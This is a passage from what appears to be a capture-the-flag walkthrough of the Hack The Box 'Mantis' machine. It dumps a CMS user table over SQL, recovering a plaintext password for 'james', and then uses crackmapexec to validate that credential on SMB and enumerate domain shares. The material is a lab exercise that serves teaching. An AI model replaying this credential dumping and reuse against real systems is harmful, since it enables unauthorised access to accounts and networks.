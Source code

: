 ```sql
```

I investigate `orcharddb` and `blog_Orchard_Users_UserPartRecord` looks valuable.

```sql
SQL (admin  admin@orcharddb)> SELECT * FROM blog_Orchard_Users_UserPartRecord;
Id   UserName   Email             NormalizedUserName   Password                                                               PasswordFormat   HashAlgorithm   PasswordSalt               RegistrationStatus   EmailStatus   EmailChallengeToken   CreatedUtc            LastLoginUtc          LastLogoutUtc         
--   --------   ---------------   ------------------   --------------------------------------------------------------------   --------------   -------------   ------------------------   ------------------   -----------   -------------------   -------------------   -------------------   -------------------   
 2   admin                        admin                AL1337E2D6YHm0iIysVzG8LA76OozgMSlyOJk1Ov5WCGK+lgKY6vrQuswfWHKZn2+A==   Hashed           PBKDF2          UBwWF1CQCsaGc/P7jIR/kg==   Approved             Approved      NULL                  2017-09-01 13:44:01   2017-09-01 14:03:50   2017-09-01 14:06:31   

15   James      james@htb.local   james                J@m3s_P@ssW0rd!                                                        Plaintext        Plaintext       NA                         Approved             Approved      NULL                  2017-09-01 13:45:44   NULL                  NULL      
```

It shows `james`'s password : `J@m3s_P@ssW0rd!`

### smb(139,445)

Given the found credential, let's test if there's any credential is working on SMB.
If the user `james` exists, it's more likely to use the same credential.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ crackmapexec smb 10.10.10.52 -u james -p 'J@m3s_P@ssW0rd!'
SMB         10.10.10.52     445    MANTIS           [*] Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (name:MANTIS) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.52     445    MANTIS           [+] htb.local\james:J@m3s_P@ssW0rd! 
```

It worked! Let's list the shares.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ crackmapexec smb 10.10.10.52 -u james -p 'J@m3s_P@ssW0rd!' --shares
SMB         10.10.10.52     445    MANTIS           [*] Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (name:MANTIS) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.52     445    MANTIS           [+] htb.local\james:J@m3s_P@ssW0rd! 
SMB         10.10.10.52     445    MANTIS           [+] Enumerated shares
SMB         10.10.10.52     445    MANTIS           Share           Permissions     Remark                                                                
SMB         10.10.10.52     445    MANTIS           -----           -----------     ------                                                                
SMB         10.10.10.52     445    MANTIS           ADMIN$                          Remote Admin                                                          
SMB         10.10.10.52     445    MANTIS           C$                              Default share                                                         
SMB         10.10.10.52     445    MANTIS           IPC$                            Remote IPC                                                            
SMB         10.10.10.52     445    MANTIS           NETLOGON        READ            Logon server share                                                    
SMB         10.10.10.52     445    MANTIS           SYSVOL          READ            Logon server share 
```
